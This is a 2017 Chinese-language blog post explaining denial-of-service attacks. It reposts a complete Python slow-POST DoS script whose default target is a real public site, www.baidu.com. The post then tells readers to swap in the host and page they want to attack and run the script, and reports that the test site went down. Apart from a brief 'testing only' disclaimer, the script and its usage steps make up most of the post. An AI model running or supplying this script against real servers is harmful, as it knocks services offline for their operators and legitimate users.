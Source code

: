 # ﻿dos攻击原理及攻击实例（带脚本）
发表于2017/1/3 22:57:36  60人阅读
分类： 网络供给与防御

首先声明，以下仅作为测试用，请勿作为非法用途。
dos攻击原理：DoS攻击就是利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务的响应。（百度百科说的，大概就是这么个意思）。
dos攻击与ddos攻击的区别就是，它是一对一的攻击，而ddos是分布式的攻击，作为入门，作为菜鸟，我们他妈哪里有那么多肉鸡给你用。。。所以不过对付一些带宽小，内存低，cpu渣的小型web服务器还是ok的。
现在，废话不多说，本地搭建一个web站点测试一下。
测试地址：http://192.168.1.110/cloudmanage/admin.php#（本地的）
测试脚本：网上一堆。给大家转载一个，如下:
```python
#!/usr/bin/env python
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=20000
PORT=80
HOST="www.baidu.com"
PAGE="/index.php"
#---------------------------

buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]

def conn_thread():
	global socks
	for i in range(0,MAX_CONN):
		s=socket.socket	(socket.AF_INET,socket.SOCK_STREAM)
		try:
			s.connect((HOST,PORT))
			s.send(buf)
			print "Send buf OK!,conn=%d\n"%i
			socks.append(s)
		except Exception,ex:
			print "Could not connect to server or send error:%s"%ex
			time.sleep(10)
#end def

def send_thread():
	global socks
	while True:
		for s in socks:
			try:
				s.send("f")
				#print "send OK!"
			except Exception,ex:
				print "Send Exception:%s\n"%ex
				socks.remove(s)
				s.close()
		time.sleep(1)
#end def

conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
```
脚本来源是：http://blog.csdn.net/jeepxiaozi/article/details/8799684
以上是一个python脚本。
HOST="www.baidu.com"
PAGE="/index.php"
我们要改的是这两处地方
改为：
HOST=“192.168.1.110”//你要撸的主机ip地址/域名
PAGE=“/cloudmanage/admin.php”//你要撸的页面
cmd命令行下执行脚本
刷刷刷，一连串socket连接。。。就开着呗。我们来看看现在网页还可以访问不？
显然被日瘫了。
别搞事情！


